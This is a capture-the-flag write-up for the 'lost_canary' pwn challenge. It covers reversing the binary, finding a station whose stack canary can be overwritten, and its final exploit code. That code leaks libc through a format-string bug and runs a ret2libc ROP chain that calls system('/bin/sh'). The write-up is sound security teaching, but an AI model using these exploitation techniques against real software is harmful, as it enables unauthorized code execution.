

# lost_canary

## Description



Files: Files: [ld-2.31.so](files/ld-2.31.so) [lost_canary](files/lost_canary) [Makefile](files/Makefile) [list-2.31.so](files/libc-2.31.so) [Dockerfile](files/Dockerfile)

## Overview

We are given 5 files: the binary, the libc and loader, the Makefile (but not the source code) and the Dockerfile (which is not needed, since we have the libraries).

The application is super simple, it asks for a "station number", welcomes us in the selected station, ask for a "ticket code" and exits (or crash if we give more than a bunch of characters).

### Reversing the application

To understand the application's logic, we need a decompiler, unfortunately we will find out that, the binary is huge and has tons of functions. I tried decompiling it with ida, but it just froze. I had more luck with ghidra, which takes a while but successfully decompiles everything.

The `main` function does pretty much nothing, if not calling the `select_station` function, which is the "real main". As we have already seen by running the application, it first asks for a buffer, **it calls `printf` with this buffer as the first argument** and convert it to a integer with `atoi`. Unfortunately, I initially completely missed the `printf` thing, which is an obvious format string vulnerability, so I started a journey in a rabbit hole of misunderstandings, more on that later. If the number is `< 0x8000` it enters a huge switch, which doesn't even get decompiled for how big it is. It is pretty easy through dynamic analysis to understand that it just jumps to `station_{n}` where `n` is the input number.

```c
void select_station(void)
{
    uint station_number;
    char input [16];

    memset(input, 0x0, sizeof(input));
    printf("Enter station number: ");
    fgets(input,0x10,stdin);
    puts("Traveling to station: ");
    printf(input);
    putchar(10);
    station_number = atoi(input);
    if (station_number < 0x8000) {
        /* WARNING: Could not recover jumptable at 0x00464a2e. Too many branches */
        /* WARNING: Treating indirect jump as call */
        // I didn't bother trying to fix these types to make it look pretty
        (*(code *)(&DAT_0065d044 + *(int *)(&DAT_0065d044 + (ulong)station_number * 4)))();
        return;
    }
    puts("Invalid station!");
    /* WARNING: Subroutine does not return */
    exit(1);
}
```

There are `0x8000` station functions, which are pretty much all the same. They all have a buffer overflow vulnerability, with different ways of getting the input buffer. They also implement a custom stack canary check which differs by the standard gcc canary because we have a different canary for each function, plus the canaries are saved in the binary global functions (`.data` section).

# The huge rabbit hole

Since I missed the format string vulnerability, I initially thought that we had to find a function that didn't implement the canary check correctly and could be used to perform a partial overwrite of the return address to do something magic (partial overwrite because PIE is enabled). This theory was enforced by the `Makefile`:
```makefile
main:
    python3 gen-canary.py
    gcc -O0 program.c -std=gnu99 -fno-stack-protector -Wno-deprecated-declarations -o lost_canary
```

Although not explicitly stated, it is clear that `gen-canary.py` generates the source code with random canaries, which is then compiled. I convinced myself that this was run at every connection and so that the canaries would change every time, but in the end I found out that the binary is always the same and it is identical to the provided one, thus we already know all the canaries.

I will try not to write everything I attempted to do, but only the parts that ended up being useful in the final solution, but keep in mind that there were a lot of random stuffs I did to find this "different function".

First of all we need to understand how different are those functions. This was pretty easy, it turns out that we have three classes of functions that basically only differs by the function they use to read the buffer.

```c
// First type
void station_0(void)
{
    char input[4100];
    char bof[4];
    ulong canary;

    canary = __stack_chk_guard_0;
    printf("%s", "Welcome to station 0.\nEnter ticket code:");
    fgets(input, 0x1000, stdin);
    strcpy(bof, input);
    canary = canary ^ __stack_chk_guard_0;
    if (canary != 0) __stack_chk_fail();
}

// Second type
void station_10(void)
{
    char bof[4];
    ulong canary;

    canary = __stack_chk_guard_6._32_8_;
    sleep(1);
    printf("%s", "Welcome to station 10.\nEnter ticket code:");
    gets(bof);
    canary = canary ^ __stack_chk_guard_6._32_8_;
    if (canary != 0) __stack_chk_fail();
}

// Third type
void station_1000(void)
{
    undefined bof[4];
    ulong canary;

    canary = __stack_chk_guard_1000;
    printf("%s", "Welcome to station 1000.\nEnter ticket code:");
    __isoc99_scanf("%s",bof);
    canary = canary ^ __stack_chk_guard_1000;
    if (canary != 0) __stack_chk_fail();
}
```

First of all we need to get the bytes of all the functions. The binary has symbols, making it easy to locate the functions, unfortunately, pwntools doesn't provide the size of the symbol or a way to read a symbol. For this reason I used a python library written by a friend of mine ([@mebeim](https://github.com/mebeim)): [systrack](https://github.com/mebeim/systrack/tree/master). This library provides a ELF parser which has a beautiful function to read symbols.
```python
from systrack.elf import ELF
elf = ELF("lost_canary")
stations = [elf.read_symbol(f"station_{i}") for i in range(0x8000)]
```

Then we manually search for four functions of each class to know which bytes remain the same for every function (Probably three functions per class is also enough, but I wanted to keep me on the safe side). The first ones that I found are this:
```python
classes = [
    [0, 1, 10002, 10004],        # fgets
    [10, 100, 10010, 10012],     # gets
    [1000, 10001, 10003, 10008]  # scanf
]
```

And then we create two functions to get the reference bytes and assign a function to the corresponding function class.
```python
def get_classes(class_inds):
    functions_bytes = [stations[i] for i in class_inds]
    always_same = [a == b == c == d for a, b, c, d in zip(*functions_bytes)]
    return functions_bytes[0], always_same

def match(function, reference_arr, always_same_arr):
    for ind, (ref, always_same) in enumerate(zip(reference_arr, always_same_arr)):
        if all(not always_same[i] or function[i] == ref[i] for i in range(len(ref))):
            return ind
    return -1

reference_arr, always_same_arr = zip(*[get_classes(class_) for class_ in classes])
```

If my theory of the "different function" was correct, now I would iterate over all the function and get one that matches none of the classes

```python
for i in range(0x8000):
    class_ = match(stations[i], reference_arr, always_same_arr)
    if class_ == -1:
        print(i)
```

But my theory was wrong, so the for executes without printing anything.

### The realization

After many attempts to find this function, I read the decompiled again and realized how stupid I had been. I finally found the format string vulnerability! I quickly realized that the buffer was too small to do anything useful if not leaking addresses, but leaking the canary was not an option, since PIE is enabled. Thus I started to realize that maybe the binary on the remote server was the same of the provided one and I tried to write the exploit with the known canaries. Ok, but why are there all these functions if they all have the same vulnerability?

### The canaries

While writing the buffer overflow exploit I quickly realized a thing: the canaries are all in the same format, 7 alphabetic characters and one whitespace (or null-byte) in a random position in this `qword`. That whitespace is carefully selected to match the stop byte of the input function, so we cannot completely rewrite the canary and overflow the stack. And at this moment I realized that I was not searching for a "magic unique function", but a "magic unique canary": a canary that contains the whitespace, not matching the input function stop character.

To explain this better I will make an example with the second function class, the `gets` one. From the `gets` man page, we know that it reads until newline, so we expect all the canaries of the functions of this class to have a newline as whitespace. `fgets` also stops at newline, but the bof is done through `strcpy` which stops at null-bytes. `scanf` stops at any whitespace (null-bytes are not whitespaces). So if we find, for example, a function that uses `fgets`, but the corresponding canary contains a space as the whitespace, we can rewrite the whole canary and overflow the stack.

First of all we get all the canaries with the same method used to get all the functions bytes:
```python
canaries = [elf.read_symbol(f"__stack_chk_guard_{i}") for i in range(0x8000)]
```

Then we define the stop characters for each function class:
```python
stop_chars = [b"\x00\n", b"\n", b" \n\t\r"]
```

Finally we check if we have a mismatch:
```python
for i in range(0x8000):
    class_ = match(stations[i], reference_arr, always_same_arr)
    assert class_ != -1
    canary = canaries[i]

    if all(bytes([b]) not in canary for b in stop_chars[class_]):
        print(f"Canary mismatch for station_{i} ({canary})")
```

And we find station 14927!

### Exploit

Now the exploit is trivial, we leak libc with the `printf` vulnerability (this is possible, because we can send `{station_number}{format_string}` and the `atoi` will correctly convert the number, ignoring the format string), we go in the vulnerable station and perform `ret2libc`.

Select vulnerable station and leak libc (the first `printf` parameter is luckily a libc leak, so we get it with just `%p`):
```python
r.sendlineafter(b"number: ", b"14927%p")
r.recvuntil(b"14927")
libc.address = int(r.recvline().strip(), 16) - 0x1ed723
```

`ret2libc`:
```python
rop = ROP(libc)
rop.raw(rop.ret)  # stack alignment for `system`
rop.system(next(libc.search(b"/bin/sh\x00")))
weird_canary = b"eY iEuas"
r.sendlineafter(b"code:", b"AAAA" + weird_canary + b"A" * 8 + rop.chain())
```

[script for finding the mismatching canary](find-mismatch.py), [full exploit](exploit.py)

### Flag

`# uiuctf{the_average_sigpwny_transit_experience}`
